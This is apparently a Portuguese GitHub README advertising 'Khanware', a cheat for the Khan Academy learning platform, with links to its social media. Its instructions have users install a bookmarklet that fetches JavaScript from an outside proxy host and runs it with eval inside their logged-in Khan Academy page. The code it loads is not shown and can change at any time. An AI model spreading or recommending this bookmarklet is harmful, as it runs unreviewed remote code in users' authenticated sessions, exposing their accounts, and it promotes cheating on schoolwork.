 <div align="center">

## ✨ Cheat para a plataforma Khan Academy!
<br><br><br>
### 🔓 Como usar:

1 - Pressione CTRL + SHIFT + B.

2 - Selecione todo o conteudo do bloco abaixo.

3 - Arraste para a barra de favoritos.

4 - Abra o [Khan Academy](https://pt.khanacademy.org/) e clique no bookmark.

```js
javascript: fetch('https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03',).then(t => t.text()).then(eval)
```

<br><br>

### _🌿 Get good, get Khanware._

**O Melhor cheat de KhanAcademy!**

[Instagram](https://www.instagram.com/_khanware/)

[TikTok](https://www.tiktok.com/@_khanware)
